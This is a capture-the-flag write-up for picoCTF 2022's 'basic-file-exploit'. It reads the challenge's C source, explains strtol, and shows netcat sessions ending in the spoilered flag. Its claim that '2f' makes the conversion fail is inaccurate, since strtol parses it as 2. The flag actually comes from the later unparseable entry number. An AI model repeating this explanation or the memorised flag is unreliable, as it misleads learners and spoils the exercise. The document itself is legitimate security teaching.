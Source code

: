 ## Name: basic-file-exploit
#### Points: 100
#### Description: The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: $ nc saturn.picoctf.net 50366 The program's source code with the flag redacted can be downloaded here.
#### Files: `program-redacted.c`

We are given a netcat connection where we can choose to write or view data:

```console
┌──(gagr㉿desktop)-[/picoCTF2022/basic-file-exploit]
└─$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program

```

When entering a value, we also have to specify the length of our data, meaning the length that we want to print when echoing some entry.
If you tried to enter some nonsense into every type of input prompt, you might get lucky and find the flag right away, however, since I am creating a writeup, 
I should at least have some idea of what's going on 😅

Looking into the provided source code, a certain if-statement looks very promising: 

```C
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```
Okay, so we ned to make the entry number equal 0. I am not very familiar with C, so I had to look up the `strtol`-function. This particular function converts
a string representation of a number into a `long int` (aka, a number), with a given base (in this case, base 10 - which is the most common number system).
For example, `input: "200"`, `strtol(200, NULL, 10)` will convert the `"200"` to `200`.

However, if the given string cannot be converted to a number, `0` is returned! This is very useful to know, since we cannot enter the value `0`. We simply need to pass some
data that cannot be converted by this function.

The next problem is to figure our where exactly this needs to be passed. Again, looking at the code, we can identify the function which contains
the aforementioned if-statement. The only place where the flag is outputted is in the `data_read()` method. 

Looking for this method in the code, we can see that it is called in the following way:

```C
  puts("Hi, welcome to my echo chamber!");
  puts("Type '1' to enter a phrase into our database");
  puts("Type '2' to echo a phrase in our database");
  puts("Type '3' to exit the program");

  ...

    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
    } else if (command == 1) {
      data_write();
      puts("Write successful, would you like to do anything else?");
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
    } else if (command == 3) {
      return 0;
    } else {
      puts("Please type either 1, 2 or 3");
      puts("Maybe breaking boundaries elsewhere will be helpful");
    }
  }

  return 0;
}
```

We are prompted to choose either 1, 2, or 3. The method is only called if we choose option 2, and if there exists some data. Therefore, we firstly need to 
use option 1 to pass some data:

```console
┌──(gagr㉿desktop)-[/mnt/…/kali/pico/picoCTF2022/basic-file-exploit]
└─$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
aaa
aaa
Please enter the length of your data:
3
3
Your entry number is: 1
Write successful, would you like to do anything else?

```
The data that you enter here is not important, we only need data to be present in order use option 2.

After entering data, we are prompted `would you like to do anything else?`. This is where we perform the exploit. At this point, data is present, and we 
skip the `else if` check:

```C
else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
```

Because of the way the `strtol` function works, we need to add a number at the beginning of the string, but we can append whatever value after. 
For example, when prompted if we want to do anything else, if we write `2f`, the convertion fails, and we are given the flag 🚩:

<details>
  <summary>Flag [SPOILER] </summary>
  
  
  ```console
        ┌──(gagr㉿desktop)-[/picoCTF2022/basic-file-exploit]
        └─$ nc saturn.picoctf.net 50366                                                                 
        Hi, welcome to my echo chamber!
        Type '1' to enter a phrase into our database
        Type '2' to echo a phrase in our database
        Type '3' to exit the program
        1
        1
        Please enter your data:
        aaa
        aaa
        Please enter the length of your data:
        3
        3
        Your entry number is: 1
        Write successful, would you like to do anything else?
        2f
        2f
        Please enter the entry number of your data:
        No data given.
        picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_25D6CDDB}
  ```
  
  
</details>







